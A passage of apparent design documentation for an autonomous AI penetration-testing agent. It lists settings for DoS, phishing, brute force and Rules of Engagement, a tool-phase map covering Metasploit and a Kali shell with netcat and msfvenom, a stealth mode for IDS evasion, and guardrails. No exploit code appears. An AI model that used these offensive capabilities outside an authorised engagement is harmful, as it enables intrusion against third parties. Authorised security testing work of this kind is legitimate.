| `DOS_MAX_ATTEMPTS` | `3` | Max different vectors to try |
| `DOS_CONCURRENT_CONNECTIONS` | `1000` | Connections for app-layer DoS (slowloris, etc.) |
| `DOS_ASSESSMENT_ONLY` | `false` | True = only check vulnerability, don't attack |
| `KALI_INSTALL_ENABLED` | `false` | Allow `apt install` inside the Kali sandbox |
| `KALI_INSTALL_ALLOWED_PACKAGES` | `""` | Allowlist for Kali apt installs |
| `KALI_INSTALL_FORBIDDEN_PACKAGES` | `""` | Denylist for Kali apt installs |
| `SHODAN_ENABLED` | `true` | Enable Shodan integration in recon tools |
| `PHISHING_SMTP_CONFIG` | `""` | Free-text SMTP config for phishing email delivery |
| `BRUTEFORCE_SPEED` | `5` | Brute force speed/aggressiveness preset |
| `LOG_MAX_MB` | `10` | Max size of agent log before rotation |
| `LOG_BACKUP_COUNT` | `5` | Number of rotated logs to keep |
| `KB_ENABLED` | `null` (yaml) | Knowledge base lookup master switch (null inherits `kb_config.yaml`) |
| `KB_SCORE_THRESHOLD` | `null` (yaml) | Minimum cosine score for a KB hit |
| `KB_TOP_K` | `null` (yaml) | KB chunks per query |
| `KB_FALLBACK_TO_WEB` | `true` | Fall through to web search when KB returns no hits |
| `KB_ENABLED_SOURCES` | `null` (all) | Per-project source allowlist |
| `KB_MMR_ENABLED` | `null` (yaml) | Maximal Marginal Relevance reranking |
| `KB_MMR_LAMBDA` | `null` (yaml) | MMR balance: 1.0=relevance, 0.0=diversity |
| `KB_OVERFETCH_FACTOR` | `null` (yaml) | Extra chunks fetched before MMR truncation |
| `KB_SOURCE_BOOSTS` | `null` (yaml) | Per-source ranking multipliers |
| `ROE_ENABLED` | `false` | Master switch for Rules of Engagement enforcement (~35 sub-settings) |
| `ROE_RAW_TEXT` | `""` | Free-form RoE block prepended verbatim to prompt |
| `ROE_CLIENT_NAME` | `""` | Client identifier for prompt + reports |
| `ROE_CLIENT_CONTACT_NAME` / `_EMAIL` / `_PHONE` | `""` | Client contact metadata |
| `ROE_EMERGENCY_CONTACT` | `""` | Emergency contact for critical findings |
| `ROE_ENGAGEMENT_START_DATE` / `_END_DATE` | `""` | ISO dates; out-of-window triggers `_roe_warnings` |
| `ROE_ENGAGEMENT_TYPE` | `external` | `external` / `internal` / `red_team` / `assumed_breach` |
| `ROE_EXCLUDED_HOSTS` | `[]` | Hosts the agent must not touch |
| `ROE_EXCLUDED_HOST_REASONS` | `[]` | Parallel list of reasons for each excluded host |
| `ROE_TIME_WINDOW_ENABLED` | `false` | Restrict scans to a daily time window |
| `ROE_TIME_WINDOW_TIMEZONE` | `UTC` | Time-window timezone |
| `ROE_TIME_WINDOW_DAYS` | `[mon..fri]` | Allowed days |
| `ROE_TIME_WINDOW_START_TIME` / `_END_TIME` | `09:00` / `18:00` | Daily window |
| `ROE_FORBIDDEN_TOOLS` | `[]` | Tools removed from `get_phase_tools()` |
| `ROE_FORBIDDEN_CATEGORIES` | `[]` | Categories removed from tool registry |
| `ROE_MAX_SEVERITY_PHASE` | `post_exploitation` | Caps phase transitions |
| `ROE_ALLOW_DOS` | `false` | Permit DoS skill |
| `ROE_ALLOW_SOCIAL_ENGINEERING` | `false` | Permit phishing skill |
| `ROE_ALLOW_PHYSICAL_ACCESS` | `false` | Permit physical-access techniques |
| `ROE_ALLOW_DATA_EXFILTRATION` | `false` | Permit data exfiltration |
| `ROE_ALLOW_ACCOUNT_LOCKOUT` | `false` | Permit account-lockout-prone brute force |
| `ROE_ALLOW_PRODUCTION_TESTING` | `true` | Permit testing against production |
| `ROE_GLOBAL_MAX_RPS` | `0` (unlimited) | Global rate limit |
| `ROE_SENSITIVE_DATA_HANDLING` | `no_access` | `no_access` / `read_only` / `redact` / `encrypt` |
| `ROE_DATA_RETENTION_DAYS` | `90` | How long to keep collected data |
| `ROE_REQUIRE_DATA_ENCRYPTION` | `true` | Require encryption-at-rest |
| `ROE_STATUS_UPDATE_FREQUENCY` | `daily` | Reporting cadence |
| `ROE_CRITICAL_FINDING_NOTIFY` | `true` | Notify operator on critical findings |
| `ROE_INCIDENT_PROCEDURE` | `""` | Free-text incident procedure |
| `ROE_THIRD_PARTY_PROVIDERS` | `[]` | Cloud/MSP providers in scope |
| `ROE_COMPLIANCE_FRAMEWORKS` | `[]` | PCI-DSS, HIPAA, SOC2, ISO27001, etc. |
| `ROE_NOTES` | `""` | Free-text notes appended to prompt block |

#### Default TOOL_PHASE_MAP

```json
{
  "query_graph": ["informational", "exploitation", "post_exploitation"],
  "execute_curl": ["informational", "exploitation", "post_exploitation"],
  "execute_naabu": ["informational", "exploitation", "post_exploitation"],
  "execute_nmap": ["informational", "exploitation", "post_exploitation"],
  "execute_nuclei": ["informational", "exploitation", "post_exploitation"],
  "kali_shell": ["informational", "exploitation", "post_exploitation"],
  "execute_code": ["exploitation", "post_exploitation"],
  "metasploit_console": ["exploitation", "post_exploitation"],
  "msf_restart": ["exploitation", "post_exploitation"],
  "web_search": ["informational", "exploitation", "post_exploitation"],
  "cve_intel": ["informational", "exploitation", "post_exploitation"]
}
```

### Environment Variables

| Variable | Required | Description |
|----------|----------|-------------|
| `OPENAI_API_KEY` | Yes | OpenAI API key for LLM calls |
| `NEO4J_URI` | Yes | Neo4j connection URI |
| `NEO4J_USER` | Yes | Neo4j username |
| `NEO4J_PASSWORD` | Yes | Neo4j password |
| `PROJECT_ID` | For DB settings | Project ID to fetch settings for |
| `WEBAPP_API_URL` | For DB settings | Webapp base URL (e.g., `http://localhost:3000`) |
| `MCP_NETWORK_RECON_URL` | No | Network recon MCP server URL (default: `http://host.docker.internal:8000/sse`) |
| `MCP_NMAP_URL` | No | Nmap MCP server URL (default: `http://host.docker.internal:8004/sse`) |
| `MCP_METASPLOIT_URL` | No | Metasploit MCP server URL (default: `http://host.docker.internal:8003/sse`) |
| `MCP_NUCLEI_URL` | No | Nuclei MCP server URL (default: `http://host.docker.internal:8002/sse`) |

---

## Summary

The RedAmon Agentic System provides:

1. **Autonomous Reasoning** - LangGraph-based ReAct pattern for intelligent decision making
2. **Wave Execution** - Parallel tool execution via `asyncio.gather()` when the LLM identifies independent tools, with grouped analysis and frontend PlanWaveCard visualization
3. **Phase-Based Security** - Controlled progression through informational → exploitation → post-exploitation
4. **Attack Path Classification** - LLM-based classification of objectives into CVE exploit or brute force paths, with secondary fallback path support
5. **Dynamic Tool Registry** - Single source of truth (`tool_registry.py`) drives all prompt generation; tool availability tables, argument references, and phase definitions are built at runtime from DB-driven `TOOL_PHASE_MAP`
6. **Human Oversight** - Approval workflows for risky phase transitions and pre-exploitation validation
7. **Real-Time Feedback** - WebSocket streaming with progress chunks for long-running commands
8. **Live Guidance** - Send steering messages while the agent works, injected into the next think step
9. **Stop & Resume** - Interrupt agent execution and resume from the last LangGraph checkpoint
10. **Multi-Tenancy** - Isolated sessions with tenant-filtered data access
11. **Stateful Exploitation** - Persistent Metasploit sessions with auto-reset and session/credential detection
12. **No-Module Fallback** - When Metasploit has no module for a CVE, the agent falls back to manual exploitation using curl, nuclei, code execution, and Kali shell tools
13. **Productivity Verdict & Unproductive-Streak Loop Detection** - Every tool output is classified by the LLM into one of five productivity verdicts (`new_info` / `confirmation` / `no_progress` / `blocked` / `duplicate`) with mandatory `what_was_new` citation. The orchestrator audits the claim against actual state delta (chain_findings growth, extracted_info population) and auto-downgrades dishonest verdicts to `no_progress`. When `UNPRODUCTIVE_STREAK_THRESHOLD` of the last `PRODUCTIVITY_AUDIT_WINDOW` steps are unproductive, Deep Think is triggered and a same-pattern fingerprint audit (sha256-truncated normalized response body) is injected into the prompt. Catches "successful but useless" loops (HTTP 200 with empty body, identical fuzzing fingerprints, stable 404s, WAF HTML) that the legacy keyword-only failure detector missed
14. **Token Optimization** - Compact formatting for older execution trace steps; conditional prompt injection to minimize token usage
14. **Expanded Kali Tooling** - nmap, nuclei, kali_shell (netcat, socat, sqlmap, john, searchsploit, msfvenom, gcc/g++), and execute_code for shell-escaping-free script execution
15. **Multi-Objective Support** - Continuous conversations with context preservation and per-objective attack path classification
16. **Database-Driven Configuration** - All settings fetched from PostgreSQL via webapp API, with standalone defaults fallback
17. **Custom Phase Prompts** - Per-phase system prompt injection for project-specific agent behavior
18. **MCP Retry Logic** - Exponential backoff retry for MCP server connections to handle container startup races
19. **EvoGraph** - Persistent evolutionary attack chain graph in Neo4j tracking every step, finding, decision, and failure. Dual memory architecture (in-memory for speed, Neo4j for persistence) with bridge relationships to the recon graph and cross-session evolutionary learning
20. **Fireteam Fan-Out** - The root agent can deploy a fireteam of N specialist sub-agents, each running its own ReAct subgraph in parallel via `asyncio.gather()` inside the same event loop. Per-member dangerous-tool confirmations land on independent `asyncio.Event`s so N specialists can pause for approval simultaneously without serializing. Members write attributed `ChainStep` / `ChainFinding` rows to EvoGraph in real time; the collect node merges `target_info` deltas and auto-completes matching TODOs back into the parent. All safety invariants (hard guardrail, soft guardrail, RoE, phase gating, tool confirmation, no recursive deployment) are preserved
21. **Deep Think (Strategic Reasoning Pre-Step)** - When triggered (first iteration, phase transition, unproductive-streak detection, or LLM self-request via `need_deep_think=true`), an extra LLM call produces a structured `DeepThinkResult` (situation / vectors / approach / priority / risks). The result is rendered as markdown, stored in state, and re-injected into every subsequent think prompt so the strategic frame persists. Streamed to the UI as a distinct `deep_think` event with its own timeline card
22. **Skills System (Built-In, User, Chat)** - Three families of expert playbooks: built-in attack-skill prompt blocks (CVE exploit, brute force, SQL injection, XSS, phishing, DoS), markdown-defined user attack skills under `agentic/skills/` (loaded by `skill_loader.py`, classified as `user_skill:<id>`), and chat skills under `agentic/community-skills/` injected on-demand via the `/skill` command or guidance queue
23. **Output Analysis (Inline)** - Every think iteration analyzes the previous tool's output inline with its decision, emitting structured findings (`OutputAnalysisInline`) that feed `target_info`, EvoGraph chain-finding writes, and the per-tool `tool_complete` event, no separate analysis LLM call
24. **Three-Layer Guardrails** - Hard (deterministic regex + ~200-domain set, non-disableable, blocks .gov/.mil/.edu/.int + IGOs), Soft (LLM-based, configurable, blocks tech giants/clouds/social/banks), Scope reminder (prompt-level injection on every think iteration). Hard guardrail is mirrored byte-for-byte in TypeScript for frontend pre-flight
25. **Rules of Engagement (RoE)** - ~35 settings encoding a full pentest contract (client metadata, time windows, scope exclusions, technique gating, severity caps, sensitive-data handling, compliance frameworks). Enforced both via prompt injection and code-level gates on `get_phase_tools()` and phase transitions
26. **Stealth Mode** - Highest-priority prompt prefix instructing slow scans, low noise, IDS evasion. Pure prompt-level, context-sensitive judgment is left to the LLM
27. **Per-Tool Stop** - Operator can cancel a single running tool (with optional `wave_id` / `step_index` disambiguation) without halting the agent; the cancelled tool reports failure and the next think reasons about an alternative
28. **Token Accounting** - Per-iteration delta + session-cumulative input/output token tallies on `AgentState` and (independently) on each `FireteamMemberState`. Deep Think tokens are folded into the iteration that triggered them
29. **Knowledge Base Integration** - Federated KB-first retrieval pipeline (curated infosec corpus → web search fallback) with project-level source allowlists, MMR diversity reranking, source-specific ranking boosts
30. **Report Summarizer** - Separate post-engagement LLM module that turns structured pentest data into 6 narrative report sections (executive summary, scope, risk, findings, attack surface, recommendations)
31. **Companion Orchestrators (Cypherfix Triage + Codefix)** - Two sibling ReAct agents sharing infrastructure: triage clusters/scores findings; codefix patches source code via a Claude-Code-style GitHub toolkit (glob/grep/read/edit/write/bash/symbols/find_definition/find_references/repo_map). Mutating tools serialized via `SEQUENTIAL_TOOLS`; round-robin API key rotation via `key_rotation.py`
